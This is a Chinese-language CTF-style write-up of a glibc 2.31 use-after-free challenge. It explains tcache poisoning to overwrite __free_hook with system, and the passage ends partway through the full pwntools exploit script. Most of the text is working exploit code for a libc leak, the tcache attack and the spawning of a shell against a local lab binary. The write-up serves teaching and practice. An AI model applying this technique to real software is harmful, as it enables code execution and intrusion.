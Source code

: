 ​ 在UAF下的利用手法为首先填满tcache，然后申请unsorted bin大小的chunk，利用UAF泄露libc基址，最后通过修改tcache的指针轻松的将堆块申请到__free_hook，修改为system地址，然后free一个chunk，chunk的内容为”/bin/sh\x00”即可轻松getshell。

### <a class="reference-link" name="exp"></a>exp

​ 泄露libc地址

```
message = "======================== LEAK HEAP ADDRESS ======================"
success(message)
for i in range(7):
    add(i, 0x80, 'a')

add(7, 0x80, 'b')

for i in range(7):
    free(i)

add(8, 0x10, 'protected')
free(7)
add(8, 0x40, '\n')
show(8)
libc = ELF(libc_path)
libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00')) - 138 - 0x10 - libc.sym['__malloc_hook']
log.success("LIBC:" + hex(libc_base))
__free_hook = libc_base + libc.sym['__free_hook']
```

​ 修改next指针为__free_hook

```
message = "======================== TCACHE ATTACK ========================"
success(message)
system = libc_base + libc.sym['system']
edit(6, p64(__free_hook))

add(0, 0x80, 'hacker')
add(0, 0x80, p64(system))
add(0, 0x10, '/bin/sh\x00')
free(0)
```

​ 完整exp如下仅供参考，由于整个程序在堆块编辑的过程中限制很宽松，大家可以自己写出更多种exp

```
from pwn import *

local = 1

binary = './UAF_glibc2.31'
libc_path = './libc-2.31.so'

if local == 1:
    p = process(binary)

def dbg():
    context.log_level = 'debug'

def add(index, size, content):
    p.sendlineafter('&gt;', '1')
    p.sendafter('index', str(index))
    p.sendafter('size', str(size))
    p.sendafter('content:', content)


def edit(index, content):
    p.sendlineafter('&gt;', '2')
```